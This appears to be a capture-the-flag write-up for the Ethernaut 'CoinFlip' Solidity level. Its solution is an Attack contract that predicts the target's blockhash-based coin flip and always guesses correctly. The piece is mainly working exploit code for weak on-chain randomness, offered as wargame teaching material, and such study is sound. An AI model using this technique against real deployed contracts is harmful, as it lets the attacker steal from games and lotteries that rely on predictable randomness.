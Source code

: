 # Task :
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

# Solution :

We write another contract called Attack that always wins in the CoinFlip contract 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
  CoinFlip flip = CoinFlip(0xa98e328f61f046B4497FBA8A53a37D4e06d67Cdd);

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
  /**
  since it says side==_guess 
  we can use side as our parameter in the attack contract to get it right every single time*/
  
    flip.flip(side);
  }

}

```

Attack has all the calculations of CoinFlip but passes "side" as its parameter instead of "_guess" resulting in a win everytime its called
